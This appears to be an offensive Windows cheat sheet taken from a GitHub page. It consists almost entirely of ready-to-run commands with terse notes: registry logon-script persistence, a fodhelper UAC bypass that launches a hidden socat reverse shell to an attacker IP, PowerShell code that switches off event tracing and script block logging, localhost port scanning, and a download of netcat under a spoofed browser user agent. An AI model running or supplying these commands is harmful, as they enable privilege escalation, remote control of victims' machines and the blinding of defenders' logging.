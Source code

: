 # Winlogon Two method
*One of the things userinit.exe does while loading your user profile is to check for an environment variable called UserInitMprLogonScript. Go to `HKCU\Environment` in the registry. New -> Expandable String Value. Name it as UserInitMprLogonScript*



#### UAC BYPASS METHODS(Run from cmd, to bypass defender) ####
`whoami /groups | find "Label"` *We want high integrity if we want to have admin perms on a process no matter if we are already an admin.If we have medium do the following* 
`set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"`
`reg add "HKCU\Software\Classes\.Servic3\Shell\Open\command" /d %CMD% /f`
`reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".Servic3" /f`
`fodhelper.exe`
`reg delete "HKCU\Software\Classes\.Servic3\" /f`
`reg delete "HKCU\Software\Classes\ms-settings\" /f`

#### Evading logging ####
# Disable Event Tracing Windows provider ( create a .ps1 and Invoke-Obfuscation)
`$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')`
`$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)`
`[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);`
# GPO takeover (create a .ps1 and Invoke-Obfuscation)
**Disable only what hurts us : 4103-Logs command invocation(module logging), 4104-Logs script block execution**
`$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')`
`$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)`
`$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0`
`$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0`
# Abusing Log Pipeline
**Disable module loggin (4103-Logs command invocation) for a particular session**
`$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false # Set ps-snapin execution details to false`


# Same machine Port enumeration
`
for($i=130; $i -le 140; $i++){
    Test-NetConnection localhost -Port $i
}
`
`Start-Process
Get-Process -name notepad
Copy-Item
Move-Item
`
# Download files
`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Download - Invoke-WebRequest using a Chrome User Agent